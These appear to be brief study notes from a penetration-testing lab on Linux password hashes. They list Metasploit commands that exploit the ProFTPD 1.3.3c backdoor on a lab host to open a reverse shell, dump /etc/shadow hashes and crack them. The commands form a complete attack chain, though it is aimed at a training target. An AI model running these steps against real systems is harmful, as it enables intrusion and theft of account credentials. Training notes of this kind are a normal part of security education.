 <h2>Password Hashes</h2>
All the information of all the accounts on Linux are stored : /etc/passwd
All the encrypted password of all the accounts on Linus in : /etc/shadow
![[Pasted image 20250916121412.png]]

```
use auxiliary/analyze/crack_linux
use post/linux/gather/hashdump
set session <id>
```

```
msfconsole -q
use exploit/unix/ftp/proftpd_133c_backdoor
set payload payload/cmd/unix/reverse
set RHOSTS demo.ine.local
set LHOST 192.70.114.2
exploit -z
```

```
sessions -u 1 //upgrade session
```
```
use post/linux/gather/hashdump
set SESSION 1
exploit
```

```
use auxiliary/analyze/crack_linux
set SHA512 true
run
```